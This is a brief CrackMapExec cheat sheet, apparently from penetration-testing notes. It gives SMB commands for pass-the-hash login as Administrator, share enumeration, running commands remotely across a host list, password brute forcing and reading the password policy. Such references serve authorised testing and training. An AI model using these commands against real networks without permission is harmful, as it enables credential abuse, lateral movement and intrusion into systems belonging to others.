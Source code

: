 # Crackmapexec

## SMB

```csharp
crackmapexec smb <TARGET_IP> -d <DOMAIN> -u Administrator -H <NTLM HASH>
```

### Shares enumeration

```csharp
crackmapexec smb 10.110.0.222  -u 'CROOK\homer_potter' -p $PASS --shares
```

### Executing a command on a provided hosts list

```csharp
crackmapexec smb <HOST.lst> -d domain.com -u Administrator -H <NTLM HASH> -x 'whoami'
```

### Bruteforce attack

```csharp
crackmapexec smb <TARGET_IP> -u <user.lst> -p <pass.list>
```

### Password policy

```csharp
crackmapexec smb 10.110.0.222 --pass-pol -u '' -p ''
```

## Resource

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

